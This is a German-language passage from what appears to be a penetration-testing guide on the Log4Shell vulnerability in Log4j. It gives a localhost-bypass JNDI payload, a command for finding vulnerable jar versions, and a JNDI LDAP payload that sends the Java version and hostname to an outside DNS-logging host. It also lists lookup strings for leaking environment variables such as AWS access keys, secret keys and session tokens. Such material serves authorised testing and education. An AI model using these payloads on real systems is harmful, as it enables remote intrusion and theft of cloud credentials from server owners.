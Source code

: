 Beachten Sie, dass **selbst wenn eine DNS-Anfrage empfangen wird, das nicht bedeutet, dass die Anwendung ausnutzbar** (oder sogar anfällig) ist; Sie müssen versuchen, sie auszunutzen.

{% hint style="info" %}
Denken Sie daran, dass Sie zur **Ausnutzung von Version 2.15** die **localhost-Überprüfung umgehen** müssen: ${jndi:ldap://**127.0.0.1#**...}
{% endhint %}

#### **Lokale Entdeckung**

Suchen Sie nach **lokalen anfälligen Versionen** der Bibliothek mit:
```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```
### **Überprüfung**

Einige der zuvor aufgeführten Plattformen ermöglichen es Ihnen, einige variable Daten einzufügen, die protokolliert werden, wenn sie angefordert werden.\
Dies kann für 2 Dinge sehr nützlich sein:

* Um die **Schwachstelle** zu **verifizieren**
* Um Informationen zu **exfiltrieren**, indem die Schwachstelle ausgenutzt wird

Zum Beispiel könnten Sie etwas anfordern wie:\
oder wie `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** und wenn eine **DNS-Anfrage mit dem Wert der Umgebungsvariable empfangen wird**, wissen Sie, dass die Anwendung anfällig ist.

Andere Informationen, die Sie versuchen könnten zu **leaken**:
```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
```